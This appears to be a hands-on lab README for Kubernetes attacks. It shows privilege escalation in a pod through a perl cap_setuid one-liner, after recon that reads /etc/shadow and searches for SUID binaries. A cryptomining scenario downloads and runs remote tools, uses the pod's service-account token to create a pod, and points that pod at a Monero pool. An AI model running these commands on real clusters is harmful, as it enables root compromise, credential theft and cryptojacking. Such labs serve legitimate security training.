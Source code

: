 # Scenario 1: Perform privilege escalation 

## setup the environment

1- create pod :

```bash
cd /tmp; cat > dev-dashboard.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: dev-dashboard
  labels:
    app: dev-dashboard
spec:
  containers:
  - name: dev-dashboard
#    securityContext:
#      runAsUser: 10000
#      runAsGroup: 10000
    image: ubuntu:latest
    command: ["/bin/sleep", "3650d"]
    imagePullPolicy: IfNotPresent
  restartPolicy: Always
EOF
```

2- deploy the pod 

```bash
kubectl apply -f dev-dashboard.yml
```

3- access the new pod 

```bash
kubectl exec -it dev-dashboard -- bash
```

4- install some additoin 

```bash
apt update
apt install curl -y 
apt install  libcap2-bin -y 
apt install sudo -y
```

5- set up Perl command with administrative rights.

```bash
setcap cap_setuid+ep /usr/bin/perl
```

6- create new user 

```bash 
adduser demo
```

## starting the attack

Information-gathering:

```bash
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

```bash
cat /etc/shadow
ls -l /root 
ls -l /home
```

Display the capabilities /check the files that have setuid permission 

```bash
find / -perm -u=s -type f 2>/dev/null
getcap -r / 2>/dev/null
sudo -l
```
in this case, the binary /usr/bin/perl has the SUID set.

privilage escalation

Capabilities are those permissions that divide the privileges of kernel user or kernel level programs into small pieces so that a process can be allowed sufficient power to perform specific privileged tasks.

```bash
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

# Scenario 2: Cryptomining

Information-gathering:

```bash
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

```bash
cat /etc/shadow
ls -l /root 
ls -l /home
```

```bash
ln -s /etc/shadow sh-link
```

Here we download and run a basic Linux config auditor to see if it finds any obvious opportunities. 
``` bash
cd /tmp; curl http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz | tar -xzvf -; unix-privesc-check-1.4/unix-privesc-check standard
```

Is it a container? 
amicontainer —> is a container introspection tool that lets you find out what container runtime is being used as well as the features available.

```bash
cd /tmp; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained
```

Now let's inspect our Kubernetes environment:

```bash
env | grep -i kube
```
```bash
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```
```bash
ls /var/run/secrets/kubernetes.io/serviceaccount
```
We have typical Kubernetes-related environment variables defined, let's see if the Kubernetes security configuration is sloppy.

```bash
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://dl.k8s.io/release/v1.22.0/bin/linux/amd64/kubectl; chmod 555 kubectl
```

```bash
kubectl get all
```

By default, kubectl will attempt to use the default service account in /var/run/secrets/kubernetes.io/serviceaccount -- and it looks like this one has some API access

- Let's inspect what all we can do:

```bash
kubectl auth can-i --list
```

```bash
kubectl auth can-i create pods
```
```bash
cd /tmp; cat > crypto.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: crypto
  namespace: prd
  labels:
    app: crypto
spec:
  containers:
  - name: crypto
    image: ubuntu:latest
    command: ["/bin/sh"]
    args: ["-c", "apt update && apt install curl -y && curl pool.minexmr.com"]
    imagePullPolicy: IfNotPresent
  restartPolicy: Always
EOF
./kubectl apply -f crypto.yml
sleep 10
./kubectl get pods
```

